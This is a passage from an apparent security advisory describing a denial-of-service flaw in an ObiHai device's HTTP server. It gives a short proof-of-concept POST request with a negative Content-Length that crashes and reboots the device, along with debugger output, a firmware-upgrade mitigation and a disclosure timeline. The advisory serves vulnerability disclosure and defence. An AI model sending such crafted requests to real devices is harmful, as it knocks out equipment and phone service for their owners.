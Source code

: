 ### Obi-9. Denial of service due to invalid content-length

Content-Length headers of -1, -2, or -3 result in a crash and device reboot.
This does not appear exploitable to gain execution.  Larger (more negative)
values return a page stating "Firmware Update Failed" though it does not appear
any attempt to update the firmware with the posted data occurred.

    POST / HTTP/1.1
    Host: foo
    Content-Length: -1

    Foo

This appears to write a constant value of 0 to an address controlled by the
Content-Length parameter, but since it appears to be relative to a freshly
mapped page of memory (perhaps via mmap() or malloc()), it does not appear this
can be used to gain control of the application.

    (gdb) bt
    #0  0x00138250 in HTTPD_msg_proc ()
    #1  0x00070138 in ?? ()
    (gdb) x/5i $pc
    => 0x138250 <HTTPD_msg_proc+396>:       strb    r1, [r3, r2]
      0x138254 <HTTPD_msg_proc+400>:       ldr     r1, [r4, #24]
      0x138258 <HTTPD_msg_proc+404>:       ldr     r0, [r4, #88]   ; 0x58
      0x13825c <HTTPD_msg_proc+408>:       bl      0x135a98
      0x138260 <HTTPD_msg_proc+412>:       ldr     r0, [r4, #88]   ; 0x58
    (gdb) i r r3 r2
    r3             0xafcc7000       2949410816
    r2             0xffffffff       4294967295

## Mitigation

Upgrade to Firmware 5-0-0-3497 (5.0.0 build 3497) or newer.

## Author

The issues were discovered by David Tomaschik of the Google Security Team.

## Timeline

- 2016/05/12 - Reported to ObiHai
- 2016/05/12 - Findings Acknowledged by ObiHai
- 2016/05/20 - ObiHai reports working on patches for most issues
- 2016/06/?? - New Firmware posted to ObiHai Website
- 2016/08/18 - Public Disclosure

